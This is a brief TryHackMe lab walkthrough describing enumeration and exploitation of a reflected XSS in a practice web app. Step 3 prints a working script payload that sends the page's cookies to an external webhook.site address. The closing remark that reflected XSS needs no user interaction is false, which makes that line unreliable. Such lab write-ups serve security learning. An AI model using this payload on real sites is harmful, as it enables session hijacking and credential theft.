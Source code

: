 # TryHackMe – Bounty Hunter Walkthrough

## Room Summary
This room simulates a web application with potential XSS vulnerabilities and encourages enumeration of HTTP headers, cookie theft, and JavaScript injection.

## Tools Used
- Burp Suite
- Firefox Dev Tools
- TryHackMe AttackBox

## Exploit Path
1. Enumerated endpoints using Gobuster.
2. Found reflected XSS vector in the search bar.
3. Injected `<script>new Image().src="http://webhook.site/yourid?cookie="+document.cookie</script>`
4. Verified successful session exfiltration.

## Skills Demonstrated
- XSS payload crafting
- Cookie theft simulation
- Web enumeration & header inspection

---

🧠 *Reflected XSS requires no user interaction — prime target for session hijacking.*
